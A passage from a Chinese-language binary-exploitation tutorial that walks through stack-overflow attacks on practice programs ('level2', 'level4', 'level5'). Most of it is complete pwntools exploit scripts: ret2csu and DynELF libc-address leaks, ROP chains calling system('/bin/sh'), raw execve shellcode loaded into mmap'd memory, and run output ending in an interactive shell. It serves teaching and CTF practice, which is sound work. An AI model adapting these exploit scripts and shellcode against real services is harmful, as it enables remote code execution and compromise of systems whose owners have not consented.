 off_pop_rax_ret = libc.symbols['write'] - got_pop_rax_ret
 print "off_pop_rax_ret: " + hex(off_pop_rax_ret)

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=write.got, rdx=4)
 payload1 = "\x00"*136
 payload1 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload1 += "\x00"*56
 payload1 += p64(main)

 p.recvuntil("Hello, World\n")

 print "\n#############sending payload1#############\n"
 p.send(payload1)
 sleep(1)

 write_addr = u64(p.recv(8))
 print "write_addr: " + hex(write_addr)
 mmap_addr = write_addr - off_mmap_addr
 print "mmap_addr: " + hex(mmap_addr)
 pop_rax_ret = write_addr - off_pop_rax_ret
 print "pop_rax_ret: " + hex(pop_rax_ret)

 #rdi= edi = r13, rsi = r14, rdx = r15 
 #write(rdi=1, rsi=linker_point, rdx=4)
 payload2 = "\x00"*136
 payload2 += p64(0x400606) + p64(0) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(linker_point) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
 payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
 payload2 += "\x00"*56
 payload2 += p64(main)

 p.recvuntil("Hello, World\n")

 print "\n#############sending payload2#############\n"
 p.send(payload2)
 sleep(1)

 #raw_input()

 linker_addr = u64(p.recv(8))
 print "linker_addr + 0x35: " + hex(linker_addr + 0x35)

 p.recvuntil("Hello, World\n")

 shellcode = ( "\x48\x31\xc0\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e" +
               "\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89" +
               "\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05" )
               

 # GADGET
 # 0x7ffff7def235 <_dl_runtime_resolve+53>: mov r11,rax
 # 0x7ffff7def238 <_dl_runtime_resolve+56>: mov r9,QWORD PTR [rsp+0x30]
 # 0x7ffff7def23d <_dl_runtime_resolve+61>: mov r8,QWORD PTR [rsp+0x28]
 # 0x7ffff7def242 <_dl_runtime_resolve+66>: mov rdi,QWORD PTR [rsp+0x20]
 # 0x7ffff7def247 <_dl_runtime_resolve+71>: mov rsi,QWORD PTR [rsp+0x18]
 # 0x7ffff7def24c <_dl_runtime_resolve+76>: mov rdx,QWORD PTR [rsp+0x10]
 # 0x7ffff7def251 <_dl_runtime_resolve+81>: mov rcx,QWORD PTR [rsp+0x8]
 # 0x7ffff7def256 <_dl_runtime_resolve+86>: mov rax,QWORD PTR [rsp]
 # 0x7ffff7def25a <_dl_runtime_resolve+90>: add rsp,0x48
 # 0x7ffff7def25e <_dl_runtime_resolve+94>: jmp r11

 shellcode_addr = 0xbeef0000

 #mmap(rdi=shellcode_addr, rsi=1024, rdx=7, rcx=34, r8=0, r9=0)
 payload3 = "\x00"*136
 payload3 += p64(pop_rax_ret) + p64(mmap_addr)
 payload3 += p64(linker_addr+0x35) + p64(0) + p64(34) + p64(7) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0)

 #read(rdi=0, rsi=shellcode_addr, rdx=1024)
 payload3 += p64(pop_rax_ret) + p64(plt_read)
 payload3 += p64(linker_addr+0x35) + p64(0) + p64(0) + p64(1024) + p64(shellcode_addr) + p64(0) + p64(0) + p64(0) + p64(0) + p64(0)

 payload3 += p64(shellcode_addr)

 print "\n#############sending payload3#############\n"
 p.send(payload3)
 sleep(1)

 p.send(shellcode+"\n")
 sleep(1)

 p.interactive()
```

成功pwn后的效果如下：

```
 $ python exp8.py 
 [+] Started program './level5'
 got_write: 0x601000
 got_read: 0x601008
 plt_read: 0x400440
 linker_point: 0x600ff8
 got_pop_rax_ret: 0x23950
 off_mmap_addr: -0x9770
 off_pop_rax_ret: 0xc2670

 #############sending payload1#############

 write_addr: 0x7f9d39d95fc0
 mmap_addr: 0x7f9d39d9f730
 pop_rax_ret: 0x7f9d39cd3950

 #############sending payload2#############

 linker_addr + 0x35: 0x7f9d3a083235

 #############sending payload3#############

 [*] Switching to interactive mode
 $ whoami
 mzheng
```


#### DynELF

**可用于不获取目标libc.so的情况下进行ROP攻击**

前面实例讲到如何通过ROP绕过x86下DEP和ASLR防护。但是我们要事先得到目标机器上的libc.so或者具体的linux版本号才能计算出相应的offset。那么如果我们在获取不到目标机器上的libc.so情况下，应该如何做呢？这时候就需要通过memory leak(内存泄露)来搜索内存找到system()的地址。

这里我们采用pwntools提供的DynELF模块来进行内存搜索。首先我们需要实现一个`leak(address)`函数，通过这个函数可以获取到某个地址上最少1 byte的数据。拿我们上一篇中的level2程序举例。leak函数应该是这样实现的：

```
 def leak(address):
     payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
     p.send(payload1)
     data = p.recv(4)
     print "%#x => %s" % (address, (data or '').encode('hex'))
 return data
```

随后将这个函数作为参数再调用d = DynELF(leak, elf=ELF('./level2'))就可以对DynELF模块进行初始化了。然后可以通过调用`system_addr = d.lookup('system', 'libc')`来得到libc.so中system()在内存中的地址。

要注意的是，通过DynELF模块只能获取到system()在内存中的地址，但无法获取字符串“/bin/sh”在内存中的地址。所以我们在payload中需要调用read()将“/bin/sh”这字符串写入到程序的.bss段中。.bss段是用来保存全局变量的值的，地址固定，并且可以读可写。通过readelf -S level2这个命令就可以获取到bss段的地址了。

```
 $ readelf -S level2
 There are 30 section headers, starting at offset 0x1148:

 Section Headers:
   [Nr] Name Type Addr Off Size ES Flg Lk Inf Al
 ……
   [23] .got.plt PROGBITS 08049ff4 000ff4 000024 04 WA 0 0 4
   [24] .data PROGBITS 0804a018 001018 000008 00 WA 0 0 4
   [25] .bss NOBITS 0804a020 001020 000008 00 WA 0 0 4
   [26] .comment PROGBITS 00000000 001020 00002a 01 MS 0 0 1
 ……
```

因为我们在执行完read()之后要接着调用system(“/bin/sh”)，并且read()这个函数的参数有三个，所以我们需要一个pop pop pop ret的gadget用来保证栈平衡。这个gadget非常好找，用objdump就可以轻松找到，也可以通过ropgadget等工具寻找更复杂的gadgets。

整个攻击过程如下：首先通过DynELF获取到system()的地址后，我们又通过read将“/bin/sh”写入到.bss段上，最后再调用system(.bss)，执行“/bin/sh”。

**Exploit**

```
 #!/usr/bin/env python
 from pwn import *

 elf = ELF('./level2')
 plt_write = elf.symbols['write']
 plt_read = elf.symbols['read']
 vulfun_addr = 0x08048474

 def leak(address):
     payload1 = 'a'*140 + p32(plt_write) + p32(vulfun_addr) + p32(1) +p32(address) + p32(4)
     p.send(payload1)
     data = p.recv(4)
     print "%#x => %s" % (address, (data or '').encode('hex'))
     return data


 p = process('./level2')
 #p = remote('127.0.0.1', 10002)

 d = DynELF(leak, elf=ELF('./level2'))

 system_addr = d.lookup('system', 'libc')
 print "system_addr=" + hex(system_addr)

 bss_addr = 0x0804a020
 pppr = 0x804855d

 payload2 = 'a'*140 + p32(plt_read) + p32(pppr) + p32(0) + p32(bss_addr) + p32(8) 
 payload2 += p32(system_addr) + p32(vulfun_addr) + p32(bss_addr)
 #ss = raw_input()

 print "\n###sending payload2 ...###"
 p.send(payload2)
 p.send("/bin/sh\0")

 p.interactive()
```

执行结果如下：

```
 $ python exp4.py 
 [+] Started program './level2'
 0x8048000 => 7f454c46
 [+] Loading from '/home/mzheng/CTF/level2': Done
 0x8049ff8 => 18697eb7
 [+] Resolving 'system' in 'libc.so': 0xb77e6918
 0x8049f28 => 01000000
 0x8049f30 => 0c000000
 0x8049f38 => 0d000000
...(skip)...
 0xb76170ae => 73797374
 0xb76170b2 => 656d0074
 0xb761071c => 60f40300
 system_addr=0xb7646460

 ###sending payload2 ...###
 [*] Switching to interactive mode
 $ whoami
 mzheng
```


## 补充

### 通过pattern定位溢出返回地址

关于溢出点定位，可以通过动态调试计算，也可以通过pattern脚本来完成，例如`metasploit`的`pattern_tool.py`脚本就可以辅助定位返回地址

```
$python pattern.py create 150 > payload
$ cat payload
Aa0Aa1Aa2(...skip...)6Ae7Ae8Ae9
# 将产生的数据输入目标程序，根据crash信息定位出错地址字串，如0x3765413665413565，再通过脚本计算出所在偏移：
$ python pattern.py offset 0x3765413665413565
hex pattern decoded as: e5Ae6Ae7
```


#### 使用工具寻找gadgets

x86中参数都是保存在栈上，在x86的ROP时，用到pop;pop;ret这样的gadgets比较多，这类gadgets也比较容易找到。但在x64中前六个参数依次保存在RDI, RSI, RDX, RCX, R8和 R9寄存器里，如果还有更多的参数的话才会保存在栈上。因此在x64上构造ROP经常需要寻找一些类似于pop rdi; ret的这种gadget。如果是简单的gadgets，我们可以通过objdump来查找。但当我们打算寻找一些复杂的gadgets的时候，还是借助于一些查找gadgets的工具比较方便。比较知名的工具有：

 ROPEME: https://github.com/packz/ropeme
 Ropper: https://github.com/sashs/Ropper
 ROPgadget: https://github.com/JonathanSalwan/ROPgadget/tree/master
 rp++: https://github.com/0vercl0k/rp

这些工具功能上都差不多，找一款自己能用的惯的即可。

下面我们结合例子来讲解，首先来看一下目标程序level4.c的源码：

```
 // 编译: gcc -fno-stack-protector level4.c -o level4 -ldl
 #include <stdio.h>
 #include <stdlib.h>
 #include <unistd.h>
 #include <dlfcn.h>

 void systemaddr()
 {
     void* handle = dlopen("libc.so.6", RTLD_LAZY);
     printf("%p\n",dlsym(handle,"system"));
     fflush(stdout);
 }

 void vulnerable_function() {
     char buf[128];
     read(STDIN_FILENO, buf, 512);
 }

 int main(int argc, char** argv) {
     systemaddr();
     write(1, "Hello, World\n", 13);
     vulnerable_function();
 }
```

首先目标程序会打印system()在内存中的地址，这样的话就不需要我们考虑ASLR的问题了，只需要想办法触发buffer overflow然后利用ROP执行system(“/bin/sh”)。但为了调用system(“/bin/sh”)，我们需要找到一个gadget将rdi的值指向“/bin/sh”的地址。于是我们使用ROPGadget搜索一下level4中所有pop ret的gadgets。

```
 $ ROPgadget --binary level4 --only "pop|ret"
 Gadgets information
 0x00000000004006d2 : pop rbp ; ret
 0x00000000004006d1 : pop rbx ; pop rbp ; ret
 0x0000000000400585 : ret
 0x0000000000400735 : ret 0xbdb8
```

结果并不理想，因为程序比较小，在目标程序中并不能找到pop rdi; ret这个gadget。怎么办呢？解决方案是寻找libc.so中的gadgets。因为程序本身会load libc.so到内存中并且会打印system()的地址。所以当我们找到gadgets后可以通过system()计算出偏移量后调用对应的gadgets。

```
 $ ROPgadget --binary libc.so.6 --only "pop|ret" | grep rdi
 0x000000000001f27d : pop rdi ; pop rbp ; ret
 0x00000000000205cd : pop rdi ; pop rbx ; pop rbp ; ret
 0x0000000000073033 : pop rdi ; pop rbx ; ret
 0x0000000000022a12 : pop rdi ; ret
```

这次我们成功的找到了“pop rdi; ret”这个gadget了。构造ROP链如下：

```
payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr)
```

另外，因为我们只需调用一次system()函数就可以获取shell，所以我们也可以搜索不带ret的gadgets来构造ROP链。

```
 $ ROPgadget --binary libc.so.6 --only "pop|call" | grep rdi
 0x000000000012da1d : call qword ptr [rdi]
 0x0000000000187113 : call qword ptr [rdx + rdi + 0x8f10001]
 0x00000000000f1f04 : call rdi
 0x00000000000f4739 : pop rax ; pop rdi ; call rax
 0x00000000000f473a : pop rdi ; call rax
```

通过搜索结果我们发现，0x00000000000f4739 : pop rax ; pop rdi ; call rax也可以完成我们的目标。首先将rax赋值为system()的地址，rdi赋值为“/bin/sh”的地址，最后再调用call rax即可。

 payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr)

所以说这两个ROP链都可以完成我们的目标，随便选择一个进行攻击即可。最终exp如下：

```
 #!/usr/bin/env python
 from pwn import *
 libc = ELF('libc.so.6')
 p = process('./level4')
 #p = remote('127.0.0.1',10001)

 binsh_addr_offset = next(libc.search('/bin/sh')) -libc.symbols['system']
 print "binsh_addr_offset = " + hex(binsh_addr_offset)

 pop_ret_offset = 0x0000000000022a12 - libc.symbols['system']
 print "pop_ret_offset = " + hex(pop_ret_offset)

 #pop_pop_call_offset = 0x00000000000f4739 - libc.symbols['system']
 #print "pop_pop_call_offset = " + hex(pop_pop_call_offset)

 print "\n##########receiving system addr##########\n"
 system_addr_str = p.recvuntil('\n')
 system_addr = int(system_addr_str,16)
 print "system_addr = " + hex(system_addr)

 binsh_addr = system_addr + binsh_addr_offset
 print "binsh_addr = " + hex(binsh_addr)

 pop_ret_addr = system_addr + pop_ret_offset
 print "pop_ret_addr = " + hex(pop_ret_addr)

 #pop_pop_call_addr = system_addr + pop_pop_call_offset
 #print "pop_pop_call_addr = " + hex(pop_pop_call_addr)

 p.recv()
 payload = "\x00"*136 + p64(pop_ret_addr) + p64(binsh_addr) + p64(system_addr) 
 #payload = "\x00"*136 + p64(pop_pop_call_addr) + p64(system_addr) + p64(binsh_addr) 

 print "\n##########sending payload##########\n"
 p.send(payload)

 p.interactive()
```


## 参考

- 【长亭科技PWN系列公开课程 #2从栈溢出开始，教你写shellcode和ROP链 2020.04.17 长亭科技安全研究员 郑吉宏】
- ROP练习 https://ropemporium.com/

- 【长亭科技PWN系列公开课程 #3小试牛刀 ROP实战 2020.04.24 长亭科技安全研究员 施伟铭】

- https://bestwing.me/ropemporium-all-writeup.html

- 讲师私货：
  https://hub.docker.com
  https://hub.docker.com/repository/docker/beswing/swpwn
  docker pull beswing/swpwn:18.04
  docker image ls
  swpwn attach
  https://github.com/Escapingbug/ancypwn

